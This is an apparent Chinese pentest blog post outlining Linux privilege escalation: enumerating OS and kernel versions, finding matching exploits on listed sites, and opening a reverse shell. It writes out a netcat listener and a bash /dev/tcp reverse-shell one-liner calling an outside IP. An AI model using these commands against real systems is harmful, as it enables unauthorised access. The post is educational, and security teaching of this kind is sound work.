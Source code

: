 +++
date = "2016-08-09T19:23:13+08:00"
description = ""
draft = false
tags = ["linux", "提权"]
title = "Linux下系统漏洞提权"
topics = ["Pentest"]

+++

### 0x00 Linux下的提权
> Linux下一般都是系统漏洞提权，分为以下几个步骤：
```
1. 获取系统版本号
2. 根据系统版本号找对应exp
3. 反弹shell
4. 尝试利用
```

### 0x01 提权
* 获取系统版本号
    * 获取发行版本
        * cat /etc/*-release
        * cat /etc/issue
        * cat /etc/lsb-release
        * cat /etc/redhat-release
    * 获取内核版本
        * cat /proc/version
        * uname -a
        * uname -mrs
        * rpm -q kernel
        * dmesg | grep Linux
        * ls /boot | grep vmlinuz
* 根据系统版本号找对应exp
    * http://www.exploit-db.com
    * http://1337day.com
    * http://www.securiteam.com
    * http://www.securityfocus.com
    * http://www.exploitsearch.net
    * http://metasploit.com/modules
    * http://securityreason.com
    * http://seclists.org/fulldisclosure
    * http://www.google.com
* 反弹shell
    * 本地：```nc -l -p 8888```
    * 目标机器：```/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1```
* 尝试利用

### 0x02 实例
* 得到系统版本号
{{% fluid_img src="/img/post/privilge_escalation_linux_get_sys_version.png" alt="得到系统版本号.png" %}}
* 找对应exp
{{% fluid_img src="/img/post/privilge_escalation_linux_search_exp.png" alt="找相应exp.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_exp_code.png" alt="保存exp源码.png" %}}
* 反弹shell
{{% fluid_img src="/img/post/privilge_escalation_linux_webshell_rebound_shell.png" alt="反弹shell.png" %}}
* 提权
{{% fluid_img src="/img/post/privilge_escalation_linux_write_exp_code.png" alt="下载exp源码.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_compile_exp_code.png" alt="编译exp源码.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_linux_run_exp.png" alt="运行exp.png" %}}

